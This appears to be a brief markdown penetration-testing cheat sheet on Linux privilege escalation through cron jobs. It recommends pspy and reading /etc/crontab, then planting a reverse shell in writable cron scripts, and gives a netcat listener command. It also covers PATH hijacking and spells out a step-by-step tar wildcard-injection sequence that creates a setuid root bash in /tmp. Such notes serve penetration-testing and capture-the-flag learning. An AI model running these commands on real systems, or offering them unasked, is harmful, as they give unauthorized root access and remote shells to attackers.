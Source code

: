 ## Program to use: pspy https://github.com/DominicBreuker/pspy

### cat /etc/crontab

#### If we have write permissions on the script, we can modify it to enter a reverse shell in it that will automatically run as root.

### Reverse shell source:  Revshells https://revshells.com/

#### Open a listener then wait. 

#### Example: nc -lvnp PORT

### If the full path of the script is not defined in the cronjob, then we can create our own script with the same name and run based on the PATH variables in the /etc/crontab file.

### We can also abuse wildcards for certain cronjobs to gain root.

## Wildcard Injection example:

### If a cronjob contains a wildcard utilizing tar we can do:

#### 1) echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > runme.sh

#### 2) chmod +x runme.sh

#### 3) touch /tmp/--checkpoint=1

#### 4) touch /tmp/--checkpoint-action=exec=sh\runme.sh

#### 5) /tmp/bash -p

### Note: Do the injection in the correct directory the automated script goes to so that it can actually run the injected commands via tar

